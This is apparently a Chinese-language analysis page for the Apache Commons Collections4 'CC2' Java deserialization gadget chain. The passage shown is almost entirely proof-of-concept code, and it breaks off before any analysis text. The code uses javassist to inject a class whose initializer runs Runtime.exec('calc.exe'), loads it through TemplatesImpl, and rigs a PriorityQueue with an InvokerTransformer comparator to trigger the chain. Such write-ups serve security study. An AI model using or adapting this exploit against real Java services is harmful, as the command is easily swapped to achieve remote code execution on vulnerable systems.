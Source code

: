 # 利用链2分析

根据poc来分析

```
package CC2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Test2 {

    public static void main(String[] args) throws Exception{

        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator Tcomparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        //cc.writeFile();
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates, "_class", null);

        Object[] queue_array = new Object[]{templates,1};
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue,2);


```